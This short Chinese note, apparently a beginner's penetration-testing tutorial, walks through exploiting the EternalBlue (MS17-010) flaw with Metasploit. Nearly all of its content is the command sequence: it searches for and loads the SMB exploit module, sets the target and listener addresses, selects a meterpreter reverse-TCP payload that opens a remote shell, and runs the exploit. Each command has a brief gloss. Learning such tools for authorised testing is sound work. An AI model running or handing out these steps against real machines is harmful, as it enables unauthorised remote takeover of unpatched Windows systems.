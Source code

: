 ```yaml
---
icon: pen-to-square
date: 2025-03-07
tags: 
title: 第一次渗透
category:
  - 领域
---
```

```
msfconsole
```
msfconsole简称[msf](https://so.csdn.net/so/search?q=msf&spm=1001.2101.3001.7020)是一款常见的渗透测试工具，包含了常见的漏洞利用模块和生成各种木马，方便于安全人员的使用。
```plaintext
search ms17_010
```
搜索永恒之蓝漏洞模块
```plaintext
use exploit/windows/smb/ms17_010_eternalblue
```
加载永恒之蓝漏洞模块
```plaintext
set RHOSTS <目标IP地址>
set LHOST <本地IP地址>
set LPORT <本地监听端口>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
设置目标主机 IP 地址、监听端口，载荷等参数
```plaintext
exploit
```
漏洞执行
